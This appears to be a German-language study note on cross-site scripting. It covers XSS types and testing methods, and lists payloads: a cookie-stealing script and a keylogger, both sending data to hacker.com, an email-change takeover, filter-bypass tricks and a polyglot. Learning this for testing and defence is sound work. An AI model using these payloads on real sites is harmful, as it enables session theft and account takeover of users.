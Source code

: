 ```yaml
---
description: Skriptausführung im Browser des Nutzers
---
```


# XSS (Cross-Site Scripting)

**DOM-based XSS:**\
JavaScript wird direkt im Browser über die HTML/DOM-Struktur ausgeführt, z. B. durch manipulierte `<script>`-Tags.

**Persistent XSS:**\
Schädlicher Code wird serverseitig gespeichert (z. B. in Blog-Kommentaren) und beim Laden der Seite an alle Nutzer ausgeliefert.

**Reflected XSS:**\
Schädlicher Code wird über die URL oder Formulareingaben eingeschleust und sofort clientseitig ausgeführt, z. B. bei unsicheren Suchfeldern.

## Payloads

Payloads werden in zwei Einzelteile zerlegt

1. Intention : Was soll der JavaScript ermöglichen?
2. Modifikation : Wie muss der originale Code an das gewünschte Szenario angepasst werden?

### \[1] Intention : Proof-of-Concept

Zur Demonstration der Möglichkeit von XSS reicht eine alert-box mit Text wie :&#x20;

```
<script>alert(document.domain);</script>
```

### \[2] Intention : Session Stealing

Diebstahl aller Cookies einer Zielmaschine.

{% code overflow="wrap" %}
```
<script>
    fetch(
        'https://hacker.com/steal?cookie=' + btoa(document.cookie)
    );
</script>
```
{% endcode %}

Der Code lädt alle Cookies des aktuellen Browsers mit _document.cookie_, kodiert die Daten mit base64 (btoa) und überträgt sie per Anfrage an die Seite _hacker.com/steal_ als Parameter _cookie_.

### \[3] Intention : Keylogger

Übertragung der Tastenanschläge eines Nutzers einer Zielmaschine

{% code overflow="wrap" %}
```
<script>
    document.onkeypress = function(e) {
        fetch(
            'https://hacker.com/log?key=' + btoa(e.key)
        );
    }
</script>
```
{% endcode %}

Dem Dokument wird der onkeypress - Listener angefügt. Dieser triggert bei Tastaturanschlag und führt eine anonyme Funktion aus. Der Key wird aus dem Event e ausgelesen und base64-kodiert als Anfrage an hacker.com/log mit Parameter key gesendet.

### \[4] Intention : Business Logic

Ausnutzen spezifischer Funktionen.

Beispielsweise könnte eine Seite die Funktion user.changeEmail( ) enthalten.

```
<script>user.changeEmail('attacker@hacker.com');</script>
```

Durch den Payload könnte die Email-Adresse des Accounts geändert werden und zum Reset des Passworts verwendet werden. (Reset Password Attack)

## Reflected XSS

Dies tritt auf, wenn vom Nutzer bereitgestellte Daten in der Website eingebunden werden ohne vorher überprüft/ validiert zu werden.

### Impact

Der Angreifer könnte Links senden oder sie in einen Iframe auf einer anderen Website einbetten, der eine JavaScript-Nutzlast enthält, um potenzielle Opfer dazu zu bringen, Code in ihrem Browser auszuführen, wodurch sie möglicherweise Sitzungs- oder Kundendaten preisgeben.

### Test auf Reflected XSS

Prüfung auf jeden möglichen Eintrittspunkt wie :&#x20;

* Parameter im URL-Query-String
* URL Datei-Pfad
* Manchmal HTTP-Header (obwohl es unwahrscheinlich ist, dass dies in der Praxis ausgenutzt werden kann)

## Stored XSS

Der XSS-Payload wird in der Web-Anwendung hinterlegt (z.b. Datenbank) und ausgeführt wenn andere Benutzer die Seite besuchen.

### Impact

Der Payload könnte Benutzer auf eine andere Website umleiten, die Sitzungs-Cookies des Benutzers stehlen oder andere Website-Aktionen durchführen, während es sich als der besuchende Benutzer ausgibt.

### Test auf Stored XSS

Es müssen alle möglichen Einstiegspunkte getestet werden, an denen Daten gespeichert und dann in Bereichen angezeigt werden, auf die andere Benutzer Zugriff haben.

* Kommentare in einem Blog
* Benutzerprofil-Informationen
* Website-Auflistungen

### Tipp

Wenn Inputs auf der Client-Side beschränkt werden (z.B. Limit der Eingabezeichen oder Beschränkung auf Integer), kann manuelles Übermitteln (curl) mit nicht erwarteten Eingabewerten Wunder bewirken!

## DOM Based XSS

DOM-basiertes XSS bedeutet, dass die JavaScript-Ausführung direkt im Browser erfolgt, ohne dass neue Seiten geladen oder Daten an den Backend-Code übermittelt werden. Die Ausführung erfolgt, wenn der JavaScript-Code der Website auf Eingaben oder Benutzerinteraktionen reagiert.

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/24a54ac532b5820bf0ffdddf00ab2247.png" alt=""><figcaption><p>HTML Document Object Model</p></figcaption></figure>

### Impact

Es könnten manipulierte Links an potenzielle Opfer gesendet werden, die sie auf eine andere Website umleiten oder Inhalte von der Seite oder der Sitzung des Benutzers stehlen.

### Test auf DOM Based XSS

DOM-basiertes XSS kann schwierig zu testen sein und erfordert ein gewisses Maß an Kenntnissen über JavaScript, um den Quellcode zu lesen. Man muss nach Teilen des Codes suchen, die auf bestimmte Variablen zugreifen, über die ein Angreifer die Kontrolle haben kann, wie z. B. "window.location.x"-Parameter.

Wenn diese Codeteile gefunden wurden, muss ihre Behandlung geprüft werden und ob die Werte jemals in das DOM der Webseite geschrieben oder an unsichere JavaScript-Methoden wie eval() übergeben werden.

```
<iframe src="javascript:alert(`xss`)"> 
```

## Blind XSS

Ähnlich wie Stored XSS. Payload wird auf der Seite gespeichert und kann von anderen Nutzern aufgerufen werden. Allerdings kann der Angreifer nicht prüfen ob er funktioniert

### Impact

Mit dem richtigen Payload könnte das JavaScript des Angreifers Callbacks zur Website des Angreifers tätigen und die URL des Mitarbeiterportals, die Cookies des Mitarbeiters und sogar den Inhalt der angezeigten Portalseite preisgeben. Nun könnte der Angreifer möglicherweise die Sitzung des Mitarbeiters entführen und Zugang zum privaten Portal erhalten.

### Test auf Blind XSS

* Payload mit Callback (HTTP Request).
* Ein bekanntes Tool für diese Attack ist XSS Hunter Express ([https://github.com/mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)).

## Weitere Tipps

* Wenn \<script>.. innerhalb eines input-Elements erscheint, dann muss zuerst escaped werden mit bspw. `"><script>exploit</script>`
* Wenn input in \<script> auftaucht wie bspw. `document.getElementsByClassName('name')[0].innerHTML='d33d';` dann kann XSS eingefügt werden durch `document.getElementsByClassName('name')[0].innerHTML='d33d';alert('XSS-Vulnerability');//';`
* Wenn ein Filter bestimmte Strings wie bspw. string aus \<string> entfernt, kann folgendes probiert werden : \<s**script**cript>. Nach Entfernen des inneren "script" bleibt ein zweites übrig und kann ggfalls ohne weitere Prüfungs ausgeführt werden.
* Wenn möglich kann auch über einfügen von bspw. `onload="alert('XSS');` ausgenutzt werden.

## XSS Polyglot

Eine Textfolge, die Attribute und Tags umgehen kann und gleichzeitig Filter umgeht.\


{% code overflow="wrap" %}
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('P0ly') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('P0ly')//>\x3e
```
{% endcode %}
